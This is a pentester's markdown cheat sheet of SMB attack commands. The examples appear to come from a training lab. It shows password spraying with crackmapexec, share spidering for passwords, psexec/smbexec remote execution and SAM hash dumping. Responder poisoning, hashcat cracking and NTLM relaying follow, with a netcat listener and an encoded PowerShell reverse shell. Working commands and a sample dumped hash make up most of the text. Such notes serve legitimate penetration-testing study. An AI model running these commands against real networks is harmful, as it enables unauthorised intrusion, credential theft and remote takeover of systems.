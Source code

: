 UDP ports `137` and `138`
139 for netbios
445 for smb directly without netbios


### Brute Forcing and Password Spray

Spraying domain joined 
```shell-session
$ crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' d <domain> 
```
non domain joined with local-auth
```
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```
N**ote:** By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found.

##  Users

get users
```
--users
```

`logged in`
```shell-session
$ crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

`enumerate rdp connections`
```
 nxc --qwinsta             Enumerate RDP connections
```

### Host
enumerate local groups on a target host
```
--local-groups
```

## credential mining

 spider for specific patterns
```
nxc --spider <share> --pattern 'pass'
```

```
nxc --spider <share> --pattern '<pattern>' --regex '<regex>'
```
 
 Options for spidering shares  
  ```

 --spider SHARE        share to spider  
 --spider-folder FOLDER  
                       folder to spider (default: .)  
 --content             enable file content searching  
 --exclude-dirs DIR_LIST  
                       directories to exclude from spidering  
 --depth DEPTH         max spider recursion depth  
 --only-files          only spider files  
 --pattern PATTERN [PATTERN ...]  
                       pattern(s) to search for in folders, filenames and file content  
 --regex REGEX [REGEX ...]  
                       regex(s) to search for in folders, filenames and file content
```

## Files
NXC get file
```
 --get-file FILE <path>  Get a remote file, ex: \\Windows\\Temp\\whoami.txt whoami.txt
```

### spider all share files
The module `spider_plus` will dig through each readable share on the host and list all readable files. Let's give it a try.

```shell
sudo nxc smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
/tmp/cme_spider_plus
```
read output json file

## SMBMAP
```shell-session
$ smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
```
### Recursive list of all directories (no files)
```shell-session
$ smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares'
```


---
## Remote Commands
```shell-session
 impacket-psexec -h
```

To connect to a remote machine with a local administrator account, using `impacket-psexec`, you can use the following command:

```shell-session
$ impacket-psexec administrator:'Password123!'@10.10.110.17
```

using netexc RCE
```shell-session
$ crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

extract SAM hashes
```shell-session
]$ crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

## Forcing Authentication attacks (poisoning)
by creating a fake SMB Server to capture users' [NetNTLM
```shell-session
$ sudo responder -I ens33
```
crack hash
```shell-session
]$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

If we cannot crack the hash, we can potentially relay the captured hash to another machine using [impacket-ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) or Responder [MultiRelay.py](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py). Let us see an example using `impacket-ntlmrelayx`.

# NTLM RELAYING  

First, we need to set SMB to `OFF` in our responder configuration file (`/etc/responder/Responder.conf`).

```shell-session
cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```

Then we execute `impacket-ntlmrelayx` with the option `--no-http-server`, `-smb2support`, and the target machine with the option `-t`. By default, `impacket-ntlmrelayx` will dump the SAM database, but we can execute commands by adding the option `-c`.

```shell-session
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146

[*] SMBD-Thread-3: Connection from /ADMINISTRATOR@10.10.110.1 controlled, attacking target smb://10.10.110.146
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
```

Setup an instant reverse shell
```shell-session
tlcwrap nc -lvnp 9001
```

```shell-session
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <b64>'
```


# SysInternals psexec
We can download PsExec from [Microsoft website](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec), or we can use some Linux implementations:

- [Impacket PsExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) - Python PsExec like functionality example using [RemComSvc](https://github.com/kavika13/RemCom).
- [Impacket SMBExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py) - A similar approach to PsExec without using [RemComSvc](https://github.com/kavika13/RemCom). The technique is described [here](https://web.archive.org/web/20190515131124/https://www.optiv.com/blog/owning-computers-without-shell-access). This implementation goes one step further, instantiating a local SMB server to receive the output of the commands. This is useful when the target machine does NOT have a writeable share available.
- [Impacket atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py) - This example executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) - includes an implementation of `smbexec` and `atexec`.
	- [Metasploit PsExec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/psexec.md) - Ruby PsExec implementation.